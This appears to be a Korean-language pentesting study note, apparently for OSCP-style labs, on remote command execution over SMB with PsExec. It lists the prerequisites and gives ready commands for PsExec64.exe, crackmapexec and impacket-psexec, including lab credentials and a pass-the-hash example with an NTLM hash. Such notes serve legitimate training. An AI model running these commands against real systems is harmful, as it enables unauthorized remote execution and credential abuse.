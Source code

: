 PsExec를 사용하기 위해선 아래 조건이 필요하다

- 사용자는 **로컬(대상 컴퓨터) Administrators** 그룹의 일원이어야 한다.
- **ADMIN$ 공유**를 **사용**할 수 있어야 한다. (**default**)
- **파일 및 프린터 공유**를 켜야 한다. (**default**)

### PsExec64.exe (win)
```powershell
.\\PsExec64.exe -i  \\\\FILES04 -u corp\\jen -p Nexus123! cmd
```

### crackmapexec (linux)
```powershell
# CMD
cme smb <ip> -u <user> -p <pass> -d <domain> -x <command>
# Powershell
cme smb <ip> -u <user> -p <pass> -d <domain> -X <command>
```

### Impacket-Psexec (linux)
```powershell
impacket-psexec '<domain>/<user>:<pass>'@<ip>

# 예시 
impacket-psexec 'choi.local/Administrator:Password123!'@192.168.40.150
impacket-psexec oscp.exam/tom_admin@10.10.103.146 -hashes :4979d69d4ca66955c075c41cf45f24dc
```
